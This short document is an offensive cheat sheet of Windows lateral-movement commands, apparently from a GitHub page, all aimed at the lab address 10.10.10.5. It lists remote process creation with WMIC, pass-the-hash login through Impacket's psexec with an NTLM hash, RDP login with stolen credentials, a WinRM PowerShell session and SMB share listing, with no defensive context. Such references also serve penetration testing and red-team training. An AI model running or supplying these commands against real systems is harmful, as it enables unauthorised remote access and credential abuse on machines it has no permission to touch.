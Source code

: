 # Remote WMIC execution
wmic /node:10.10.10.5 process call create "cmd.exe /c whoami"

# Pass-the-Hash with Impacket
psexec.py administrator@10.10.10.5 -hashes aad3b435b51404eeaad3b435b51404ee:31337deadbeef1234567890abcdef

# Using RDP once creds are popped
xfreerdp /u:admin /p:SuperSecure123 /v:10.10.10.5

# Remote PowerShell session (WinRM)
Enter-PSSession -ComputerName 10.10.10.5 -Credential admin

# SMB-mounted share access
smbclient //10.10.10.5/share -U 'user' -c 'ls'
